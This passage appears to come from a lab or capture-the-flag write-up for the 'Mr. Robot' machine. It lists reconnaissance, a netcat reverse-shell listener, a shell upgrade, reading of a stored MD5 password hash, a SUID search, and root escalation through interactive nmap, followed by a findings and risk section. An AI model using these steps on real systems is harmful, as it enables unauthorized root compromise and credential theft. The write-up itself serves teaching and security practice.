 **Root cause:** interactive functionality of a privileged binary (nmap) allowed command execution as root. This is a configuration/security issue.

---

## 9. Reproducible Commands (lab-only)

![mr.robot10](images/mr.robot10.png)

> Execute only in authorized lab environments.

```bash
# Port scan
nmap -sC -sV -oN nmap_initial 10.10.199.99

# Directory enumeration
gobuster dir -u http://10.10.199.99 -w /usr/share/wordlists/dirb/common.txt -t 10

# Start listener for reverse shell
nc -lvnp 2222

# Upgrade received shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

# Check user home
cd /home/robot
ls -la
cat password.raw-md5

# Check SUID binaries
find / -perm -u=s 2>/dev/null

# Interactive nmap (lab only)
nmap --interactive
# at prompt: !sh
```

---

## 10. Findings, root cause & risk analysis

![mr.robot11](images/mr.robot11.png)

**Findings**

* Misconfigured/elevated interactive utility: `nmap` allowed a root shell.
* Weak credential handling: MD5 hash stored in a user home.
* Web-facing admin endpoints increase the attack surface.

**Impact**

* Full system compromise (user -> root). Confidentiality, integrity, and availability risk.
